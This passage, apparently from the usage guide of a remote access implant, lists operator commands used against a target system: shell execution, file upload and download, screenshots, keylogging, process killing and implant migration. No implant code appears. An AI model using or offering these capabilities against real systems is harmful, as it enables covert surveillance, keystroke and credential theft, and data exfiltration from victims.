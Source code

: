 3. **Execute a command on the target system**:
   ```bash
   shell <COMMAND>
   ```

4. **Upload a file to the target system**:
   ```bash
   upload <LOCAL_FILE> <REMOTE_PATH>
   ```

5. **Download a file from the target system**:
   ```bash
   download <REMOTE_FILE> <LOCAL_PATH>
   ```

6. **List files in a directory on the target system**:
   ```bash
   ls <REMOTE_DIRECTORY>
   ```

7. **Change directory on the target system**:
   ```bash
   cd <REMOTE_DIRECTORY>
   ```

8. **Capture a screenshot from the target system**:
   ```bash
   screenshot
   ```

9. **Record keystrokes on the target system**:
   ```bash
   keylogger start
   ```

10. **Stop recording keystrokes on the target system**:
    ```bash
    keylogger stop
    ```

11. **Retrieve recorded keystrokes**:
    ```bash
    keylogger dump
    ```

12. **List processes running on the target system**:
    ```bash
    ps
    ```

13. **Kill a process on the target system**:
    ```bash
    kill <PROCESS_ID>
    ```

14. **Migrate the implant to another process**:
    ```bash
    migrate <PROCESS_ID>
    ```
